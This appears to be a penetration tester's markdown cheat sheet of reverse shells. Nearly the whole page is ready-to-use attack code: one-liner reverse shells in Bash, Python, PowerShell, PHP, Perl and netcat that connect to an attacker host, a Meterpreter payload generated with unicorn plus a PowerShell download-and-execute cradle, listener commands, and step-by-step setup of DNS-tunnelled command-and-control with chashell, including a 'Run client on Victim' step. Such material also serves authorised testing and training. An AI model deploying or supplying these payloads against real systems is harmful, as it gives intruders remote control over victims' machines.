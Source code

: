 # Reverse Shells

- [https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/](https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/)
- [https://gist.github.com/daniruiz/c073f631d514bf38e516b62c48366efb](https://gist.github.com/daniruiz/c073f631d514bf38e516b62c48366efb)




## Bash

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f
```




## Python



### IPv4

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()
```



### IPv6

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()
import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()
```




## PowerShell

* [https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)
* [https://gist.github.com/staaldraad/8473da7f2dfed28b2216b15ca6ebad11](https://gist.github.com/staaldraad/8473da7f2dfed28b2216b15ca6ebad11)
* [https://github.com/tihanyin/PSSW100AVB/blob/main/ReverseShell_2022_03.ps1](https://github.com/tihanyin/PSSW100AVB/blob/main/ReverseShell_2022_03.ps1)
* [https://github.com/antonioCoco/ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.13.37",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
$socket = new-object System.Net.Sockets.TcpClient("10.10.13.37",1337);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
    $writer.Flush();
    $read = $null;
    $res = ""
    while($stream.DataAvailable -or $read -eq $null) {
        $read = $stream.Read($buffer, 0, 1024)
    }
    $out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
    if(!$out.equals("exit")){
        $args = "";
        if($out.IndexOf(' ') -gt -1){
            $args = $out.substring($out.IndexOf(' ')+1);
            $out = $out.substring(0,$out.IndexOf(' '));
            if($args.split(' ').length -gt 1){
                $pinfo = New-Object System.Diagnostics.ProcessStartInfo
                $pinfo.FileName = "cmd.exe"
                $pinfo.RedirectStandardError = $true
                $pinfo.RedirectStandardOutput = $true
                $pinfo.UseShellExecute = $false
                $pinfo.Arguments = "/c $out $args"
                $p = New-Object System.Diagnostics.Process
                $p.StartInfo = $pinfo
                $p.Start() | Out-Null
                $p.WaitForExit()
                $stdout = $p.StandardOutput.ReadToEnd()
                $stderr = $p.StandardError.ReadToEnd()
                if ($p.ExitCode -ne 0) {
                    $res = $stderr
                } else {
                    $res = $stdout
                }
            }
            else{
                $res = (&"$out" "$args") | out-string;
            }
        }
        else{
            $res = (&"$out") | out-string;
        }
        if($res -ne $null){
        $writer.WriteLine($res)
    }
    }
}While (!$out.equals("exit"))
$writer.close();
$socket.close();
$stream.Dispose()

#$a=New-Object System.Net.Sockets.TcpClient("10.10.13.37",1337);if($a -eq $null){exit 1}$b=$a.GetStream();$c=New-Object System.IO.StreamWriter($b);$d=New-Object System.Byte[] 1024;$e=New-Object System.Text.AsciiEncoding;do{$c.Flush();$f=$null;$g="";while($b.DataAvailable -or $f -eq $null) {$f=$b.Read($d,0,1024)}$h=$e.GetString($d,0,$f).Replace("`r`n","").Replace("`n","");if(!$h.equals("exit")){$i="";if($h.IndexOf(" ") -gt -1){$i=$h.Substring($h.IndexOf(" ")+1);$h=$h.Substring(0,$h.IndexOf(" "));if($i.Split(" ").Length -gt 1){$k=New-Object System.Diagnostics.ProcessStartInfo;$k.FileName="cmd.exe";$k.RedirectStandardError=$true;$k.RedirectStandardOutput=$true;$k.UseShellExecute=$false;$k.Arguments="/c $h $i";$p=New-Object System.Diagnostics.Process;$p.StartInfo=$k;$p.Start()|Out-Null;$p.WaitForExit();$l=$p.StandardOutput.ReadToEnd();$m=$p.StandardError.ReadToEnd();if($p.ExitCode -ne 0){$g=$m}else{$g=$l}}else{$g=(&"$h" "$i")|Out-String;}}else{$g=(&"$h")|Out-String;}if($g -ne $null){$c.WriteLine($g)}}}while(!$h.equals("exit"))$c.close();$a.close();$b.Dispose()
```



### Download Cradles

- [https://gist.github.com/HarmJ0y/bb48307ffa663256e239](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)
- [https://github.com/VirtualAlllocEx/Payload-Download-Cradles](https://github.com/VirtualAlllocEx/Payload-Download-Cradles)




## PHP

```php
<?php echo passthru("/bin/bash -c '/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'"); ?>
```




## Perl

```
use Socket;$i="<LHOST>";$p=<LPORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```




## C

- [https://gitlab.com/ORCA666/sshell](https://gitlab.com/ORCA666/sshell)




## Netcat

* [https://blog.ikuamike.io/posts/2021/netcat/](https://blog.ikuamike.io/posts/2021/netcat/)

```
$ {nc.tradentional|nc|ncat|netcat} <LHOST> <LPORT> {-e|-c} /bin/bash
```




## Meterpreter



### unicorn

* [https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)

```
$ python3 unicorn.py windows/meterpreter/reverse_https 10.10.13.37 443
$ sudo msfconsole -qr unicorn.rc
PS > IEX(New-Object Net.WebClient).DownloadString('powershell_attack.txt')
```




## Listeners

```
$ {nc.tradentional|nc|ncat|netcat} [-6] -lvnp <LPORT>
```




## Transport over DNS

* [https://xakep.ru/2018/09/07/dns-tunneling/](https://xakep.ru/2018/09/07/dns-tunneling/)
* [https://habr.com/ru/post/345056/](https://habr.com/ru/post/345056/)
* [https://habr.com/ru/company/group-ib/blog/496712/](https://habr.com/ru/company/group-ib/blog/496712/)



### dnscat2

* [https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)
* [https://github.com/lukebaggett/dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell)



### chashell

* [https://github.com/sysdream/chashell](https://github.com/sysdream/chashell)

Buy and configure DNS (e.g., `c2cdomain.net`):

```
A * -> <IP>
A @ -> <IP>
A chashell -> <IP>
NS c -> chashell.c2cdomain.net
```

Get dependencies:

```
$ export GOPATH=/home/snovvcrash/code/go
$ export PATH=$GOPATH:$GOPATH/bin:$PATH
$ go get -v -u github.com/golang/dep/cmd/dep
$ go get github.com/mitchellh/gox
$ cd $GOPATH/src/github.com/golang/dep
$ go install ./...
```

Clone chashell into `$GOPATH/src` (otherwise, `dep` will error out):

```
$ git clone https://github.com/sysdream/chashell $GOPATH/src/chashell
$ cd $GOPATH/src/chashell
```

Build binaries:

```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.c2cdomain.net
$ make build-all OSARCH="linux/amd64"
```

Run server on Attacker:

```
$ cd release/
$ sudo systemctl stop systemd-resolved
$ sudo ./chaserv_linux_amd64
```

Run client on Victim:

```
$ ./chashell_linux_amd64
```




## Tools

* [https://www.revshells.com/](https://www.revshells.com/)
* [https://itm4n.github.io/tools/](https://itm4n.github.io/tools/)



### VbRev

* [https://github.com/VbScrub/VbRev](https://github.com/VbScrub/VbRev)



### xc

* [https://github.com/xct/xc](https://github.com/xct/xc)

Listen:

```
$ rlwrap ./xc -l -p 443
```

Launch:

```
PS > Start-Process -NoNewWindow .\xc.exe "10.10.13.38 443"
```

